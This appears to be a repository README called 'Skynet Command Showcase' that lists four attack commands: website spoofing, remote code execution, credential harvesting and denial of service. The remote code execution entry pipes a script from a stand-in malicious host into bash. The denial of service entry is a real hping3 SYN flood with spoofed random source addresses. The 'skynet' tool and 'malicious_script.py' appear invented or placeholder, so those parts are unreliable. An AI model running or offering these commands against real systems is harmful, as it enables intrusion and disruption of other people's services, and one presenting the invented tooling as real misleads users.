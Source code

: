 # Skynet Command Showcase

This repository demonstrates various skynet commands and attacks. Each command is accompanied by a brief description and an image illustrating the attack.

## Table of Contents

1. [Command 1: Website spoofing](#command-1-website-spoofing)
2. [Command 2: Remote Code Execution](#command-2-remote-code-execution)
3. [Command 3: Credential Harvesting](#command-3-credential-harvesting)
4. [Command 4: Denial of Service](#command-4-denial-of-service)

## Command 1: Website spoofing

### Description
Utilizes a phishing attack to trick users into revealing sensitive information.

### Command
```bash
sudo ./skynet --attack --create-pool --all-queries-to-this-host --create-trojan-web 0
```

### Image
![spoofing](../images/website-spoofing.png)

## Command 2: Remote Code Execution

### Description
Executes arbitrary code on a remote system to gain unauthorized access.

### Command
```bash
curl -s https://malicious-website.com/shell.sh | bash
```

### Image
![Remote Code Execution](images/remote_code_execution.png)

## Command 3: Credential Harvesting

### Description
Performs a credential harvesting attack to obtain login credentials.

### Command
```bash
malicious_script.py --target https://target-login-page.com
```

### Image
![Credential Harvesting](images/credential_harvesting.png)

## Command 4: Denial of Service

### Description
Launches a Denial of Service attack to disrupt the target's services.

### Command
```bash
hping3 -S -c 1000 -p 80 --rand-source target-ip
```

### Image
![Denial of Service](images/denial_of_service.png)
